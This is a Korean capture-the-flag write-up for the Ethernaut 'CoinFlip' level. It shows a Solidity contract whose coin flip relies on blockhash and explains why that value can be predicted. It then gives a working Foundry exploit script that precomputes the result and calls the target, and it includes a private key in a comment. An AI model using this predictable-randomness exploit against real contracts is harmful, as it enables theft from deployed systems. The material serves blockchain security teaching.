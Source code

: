 # 지문

이것은 **동전 던지기 게임**으로, 동전 던지기의 결과를 맞춰 **연승 기록을 쌓아야** 합니다.
이 레벨을 완료하려면, **동전 결과를 10번 연속으로 정확히 맞춰야** 합니다.

도움이 될 수 있는 것들:

* 오른쪽 상단 메뉴의 "?" 페이지에서 **"Beyond the console"** 섹션을 참고하세요.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

# 풀이 
solidity 초창기에는 smart contract상에서 random 값을 구현하지 못했음.
각 node별로 다른 random값이 나오게되면 그건 Network Fork로 이어지기 때문임.
현재는 그를 보완하기 위해서 다양한 방법이 있는데 그것까지 이야기하기엔 설명이 너무 길어지므로 여기선 생략하도록 하겠음.
아무튼 초창기에는 어쩔수없이 `blockhash`나 `block.timestamp`를 이용해서 구현했는데 문제는 그 값을 그 block안에 들어있는 다른 transaction에서 알아낼 수가 있었음 

그것을 이용해서 푸는 문제임 


```solidity
// SPDX-License-Identifier: UNLICENSED
// 실행 10번 반복
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function flip(bool _guess) external returns (bool);
    function consecutiveWins() external view returns (uint256);
}

contract Loader {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function play(address target) public {
        console.log("current block.number : %d", block.number);
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        ITarget(target).flip(side);
    }
}
contract SolveScript is Script {
    address public target = 0xeC4cFde48EAdca2bC63E94BB437BbeAcE1371bF3;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol:SolveScript --broadcast --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        //Loader loader = new Loader();
        Loader loader = Loader(0x9E7088C23e5C0B2D02cD7886A1BDbC7FE8b71016);
        console.log("loader address : %s", address(loader));
        loader.play(target);
        vm.stopBroadcast();
    }
}
```
